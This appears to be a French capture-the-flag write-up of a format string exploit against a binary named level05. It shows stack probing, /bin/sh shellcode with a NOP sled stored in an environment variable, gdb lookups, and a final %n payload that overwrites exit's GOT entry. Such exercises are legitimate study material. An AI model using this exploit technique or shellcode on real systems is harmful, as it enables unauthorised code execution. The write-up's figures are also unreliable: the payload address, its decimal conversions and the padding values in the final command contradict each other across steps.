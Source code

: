 ## LEVEL 04

Au lancement du programme celui-ci attend une entrée, puis la print dans le terminal.

On peut essayer une format string attack.
```
 $ python -c "print 'aaaa ' + '%x ' * 15" > /tmp/payload
 $ cat /tmp/payload - | ./level05
 aaaa 64 f7fcfac0 f7ec3af9 ffffd4ef ffffd4ee 0 ffffffff ffffd574 f7fdb000 61616161 20782520 25207825 78252078 20782520 252078
```
Printf stock alors notre string à la 10ème adresse.

On créé alors notre payload avec notre shellcode dans une variable d'environnement.

 ```
 export PAYLOAD=$(python -c 'print 128*"\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
 ```
    
Grace à gdb on peut trouver l'adresse de cette variable d'environnement.

    (gdb) b *main
    (gdb) x/s *((char **)environ + 19)
    0xffffdf6a: "PAYLOAD=", 'A' <repeats 50 times>, "j\vX\231Rh//shh/bin\211\343\061\311̀"

Notre payload se trouve alors à l'adresse 0xffffdf6a.

On va maintenant chercher l'adresse de l'exit dans le GOT pour la rediriger vers notre variable d'environnement.

```
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0x08048370  exit
0x08048370  exit@plt

(gdb) x/2i 0x08048370
   0x8048370 <exit@plt>:        jmp    *0x80497e0
   0x8048376 <exit@plt+6>:      push   $0x18
```

Bien, nous avons maintenant l'adresse de l'exit 0x80497e0

On va alors mettre l'adresse de notre variable d'environnement dans l'adresse ci-dessus. Le problème est qu'il faut la mettre en decimal ce qui fait beaucoup de caractères. On va donc diviser notre adresse en deux 0xdf1c(57194) et 0xffff (65535) que l'on met respectivement dans 0x80497e0 et 0x80497e2.
0xffffdf9c

65535- 57244 = 8291

57244 - 8 = 57236

    (python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57266x" + "%10$n" + "%8261x" + "%11$n"'; cat) | ./level05

